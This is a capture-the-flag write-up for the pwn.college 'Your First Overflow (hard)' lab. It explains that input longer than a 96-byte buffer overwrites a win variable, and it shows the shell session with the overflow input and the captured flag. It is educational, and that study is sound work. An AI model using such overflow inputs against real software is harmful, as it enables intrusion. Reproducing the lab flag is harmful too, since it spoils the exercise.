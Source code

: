 # Binary Exploitation 

## Challenge 2: Your First Overflow (hard)
### Solve 

**Flag:** `pwn.college{wh5g_S9DJsmle3J7QBDZwo_IDbq.dBTOywyMwAzNzEzW}`

METHOD: 
1. navigate to ls /challenge and see filename with .c
2. read the file using cat
3. it says input[96], which means win_variable starts immediately after these 96 bytes and needs 96+ bytes input to make it non zero to print flag
4. The buffer is only 96 bytes, so if you provide more, it overflows into win_variable
5. give that many characters as input  


```bash  
hacker@binary-exploitation~your-first-overflow-hard:~$ /challenge/binary-exploitation-first-overflow
Send your payload (up to 4096 bytes)!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASDSD
You win! Here is your flag:
pwn.college{wh5g_S9DJsmle3J7QBDZwo_IDbq.dBTOywyMwAzNzEzW}


Goodbye!
*** stack smashing detected ***: terminated
Aborted  
```


### New Learnings
 


### References
Slides  
https://www.imperva.com/learn/application-security/buffer-overflow/  
